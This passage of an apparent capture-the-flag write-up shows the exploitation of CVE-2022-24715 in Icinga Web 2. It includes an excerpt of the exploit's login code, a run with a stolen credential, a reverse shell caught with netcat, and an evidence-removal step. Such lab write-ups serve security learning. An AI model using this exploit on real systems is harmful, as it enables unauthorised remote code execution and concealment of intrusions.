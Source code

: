 ### Authenticated RCE (CVE-2022-24715)

Given the credential for `matthew`, I can try "Authenticated RCE exploit" this time.

```python
def login(url,user,password):
    try:
        login_url = url + "/icingaweb2/authentication/login"
        session = requests.Session()
        r = session.get(login_url)
        print(r)
        print(re.findall(r'name="CSRFToken" value="([^"]*)"', r.text))
        csrf_regex = re.findall(r'name="CSRFToken" value="([^"]*)"',r.text)[0]
        data_post = {"username":user,
                    "password":password,
                    "CSRFToken":csrf_regex,
                    "formUID":"form_login",
                    "btn_submit":"Login"
                    }
```

I found out that it combines URL with `/icingaweb2/~~~`, so I set the argument url without `/icingaweb2` part : `http://icinga.cerberus.local:8080`

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python 51586.py -u http://icinga.cerberus.local:8080 -U matthew -P IcingaWebPassword2023 -i 10.10.14.15 -p 9000 
<Response [200]>
['656896936|9577729d721b5c787e5b0b506a86e986bed38984d5affa8127e6b777c0a1c8e9']
[*]Session successfully.
[*]File uploaded successfully.
[*]Eliminating evidence
```

Meanwhile, I opened a listener and waited for the conneciton.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000                      
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.205] 49874
bash: cannot set terminal process group (625): Inappropriate ioctl for device
bash: no job control in this shell
www-data@icinga:/usr/share/icingaweb2/public$ whoami
\whoami
www-data
www-data@icinga:/usr/share/icingaweb2/public$ id
\id
uid=33(www-data) gid=33(www-data) groups=33(www-data),121(icingaweb2)
```

I got a shell of `www-data`!


